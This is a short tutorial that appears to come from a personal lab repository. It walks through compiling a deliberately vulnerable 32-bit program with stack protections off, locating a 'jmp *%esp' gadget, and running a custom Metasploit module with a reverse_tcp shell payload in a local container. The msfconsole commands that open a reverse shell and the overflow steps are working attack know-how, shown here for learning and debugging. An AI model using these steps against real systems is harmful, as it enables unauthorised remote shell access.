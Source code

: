 # A Simple Buffer Overrun Example

In this short explanation, I will detail how to create an attack for a "local"
buffer overrun.  This example requires a meterpreter session to already be
active, so it's not at all realistic.  It is, however, instructive in terms
of creating metasploit modules.

## Setup

1) Setup local environment using direction [here](./running_local_images.md)

2) Use `msfvenom` to download a meterpreter and fire it up, creating a "session"

3) Copy the custom metasploit module found [here](./buffer_overrun_custom_exploit.rb)
to a location where msfconsole can find it.

```
cp buffer_overrun_custom_exploit.rb /usr/share/metasploit-framework/modules/exploits/custom/buffer_overrun_custom_exploit.rb
```

- Compile the silly little buffer overrun and find the address of the `jmp *%esp`
instruction.

```
gcc -static -g -m32 -std=c99 -Wall -fno-stack-protector -z execstack -o buffer_overrun buffer_overrun.c
objdump -D buffer_overrun &> buffer_overrun.dump
grep "*%esp" buffer_overrrun.dump
```

## Triggering the exploit

We will use the `jmp *%esp` instruction as the simplest type of ROP gadget.
It will trampoline the control flow to where the overrun occurred by, allowing
us to execute the injected payload.  Therefore, we will make the `jmp *%esp` our
return target.  To do this, modify the `buffer_overrun_custom_exploit.rb`
module's x86 `Ret` address to be the address we found above.  At this point,
you should now, with 100% accuracy, be able to use the first session, to create
a second session on the target machine.

```
msfconsole
use exploit/custom/buffer_overrun_custom_exploit
set PAYLOAD linux/x86/shell/reverse_tcp
set SESSION 1
set LHOST 172.17.0.2
set RHOST 172.17.0.2
set LPORT 8889
exploit
```
This is all a bit silly, I know.  But having a metasploit module operate on a
local program allows you to easily debug it, step through it, and understand
what's going on.

For example, you can now look in your `/tmp` directory for the payload file that
metasploit created and used.  With it, you can fire up a gdb session and step
through, looking at what happens.

```
gdb -tui --args ./buffer_overrun /tmp/RAND.txt
```

## Notes

1) I initially struggled with this simple example because my computer has ASLR
turned on, meaning that the stack was put in different places.  That's why I
switched to the extra step of using the ROP gadget.

2) It seems that the values of certain registers going into the payload are
important.  For example, I noticed that the meterpreter payload sometimes
overwrites itself. This occurs after the initial connection is made between the
target and the host and the payload attempts to download the full meterpreter
shell.  This happens because $ecx is set to an address right above the read
system call.

As I said, I noticed this before I started using the ROP gadget, so maybe it
was't working b/c I was trying to debug it with GDB, rather than just letting
metasploit do it's thing.  It is, however, something to be aware of if I start
running into similar problems.
